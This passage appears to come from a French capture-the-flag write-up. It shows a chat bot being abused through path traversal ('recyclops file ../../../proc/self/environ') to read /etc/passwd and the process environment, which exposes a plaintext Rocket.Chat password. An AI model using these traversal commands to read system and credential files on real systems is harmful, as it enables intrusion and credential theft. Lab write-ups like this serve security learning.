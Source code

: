 ```bash
rpc❌32:32:Rpcbind Daemon:/var/lib/rpcbind:/sbin/nologin
gluster❌994:989:GlusterFS daemons:/run/gluster:/sbin/nologin
chrony❌993:987::/var/lib/chrony:/sbin/nologin
libstoragemgmt❌992:986:daemon account for libstoragemgmt:/var/run/lsm:/sbin/nologin
saslauth❌991:76:Saslauthd user:/run/saslauthd:/sbin/nologin
dnsmasq❌985:985:Dnsmasq DHCP and DNS server:/var/lib/dnsmasq:/sbin/nologin
radvd❌75:75:radvd user:/:/sbin/nologin
clevis❌984:983:Clevis Decryption Framework unprivileged user:/var/cache/clevis:/sbin/nologin
pegasus❌66:65:tog-pegasus OpenPegasus WBEM/CIM services:/var/lib/Pegasus:/sbin/nologin
sssd❌983:981:User for sssd:/:/sbin/nologin
colord❌982:980:User for colord:/var/lib/colord:/sbin/nologin
rpcuser❌29:29:RPC Service User:/var/lib/nfs:/sbin/nologin
setroubleshoot❌981:979::/var/lib/setroubleshoot:/sbin/nologin
pipewire❌980:978:PipeWire System Daemon:/var/run/pipewire:/sbin/nologin
gdm❌42:42::/var/lib/gdm:/sbin/nologin
gnome-initial-setup❌979:977::/run/gnome-initial-setup/:/sbin/nologin
insights❌978:976:Red Hat Insights:/var/lib/insights:/sbin/nologin
sshd❌74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
avahi❌70:70:Avahi mDNS/DNS-SD Stack:/var/run/avahi-daemon:/sbin/nologin
tcpdump❌72:72::/:/sbin/nologin
mysql❌27:27:MySQL Server:/var/lib/mysql:/sbin/nologin
nginx❌977:975:Nginx web server:/var/lib/nginx:/sbin/nologin
mongod❌976:974:mongod:/var/lib/mongo:/bin/false
rocketchat❌1001:1001::/home/rocketchat:/bin/bash
dwight❌1004:1004::/home/dwight:/bin/bash
<!=====End of file ../../../etc/passwd=====>
```

### /proc/self/environ: Environment variables
On peut afficher les variables d'environnements (et d'autres infos) grâce aux fichiers présents dans /proc/self :

```bash
recyclops file ../../../proc/self/cmdline
#################################################

Bot
7:05 PM
<!=====Contents of file ../../../proc/self/cmdline=====>
cat/home/dwight/sales/../../../proc/self/cmdline
<!=====End of file ../../../proc/self/cmdline=====>

recyclops file ../../../proc/self/environ
#################################################

Bot
7:07 PM
<!=====Contents of file ../../../proc/self/environ=====>
RESPOND_TO_EDITED=trueROCKETCHAT_USER=recyclopsLANG=en_US.UTF-8OLDPWD=/home/dwight/hubotROCKETCHAT_URL=http://127.0.0.1:48320ROCKETCHAT_USESSL=falseXDG_SESSION_ID=1USER=dwightRESPOND_TO_DM=truePWD=/home/dwight/hubotHOME=/home/dwightPORT=8000ROCKETCHAT_PASSWORD=Queenofblad3s!23SHELL=/bin/shSHLVL=4BIND_ADDRESS=127.0.0.1LOGNAME=dwightDBUS_SESSION_BUS_ADDRESS=unix:path=/run/user/1004/busXDG_RUNTIME_DIR=/run/user/1004PATH=/home/dwight/hubot/node_modules/coffeescript/bin:node_modules/.bin:node_modules/hubot/node_modules/.bin:/usr/bin:/bin_=/usr/bin/cat
<!=====End of file ../../../proc/self/environ=====>
```
On obtient les creds de rocketchat sur la plateforme rocket.chat
rocketchat : `Queenofblad3s!23`
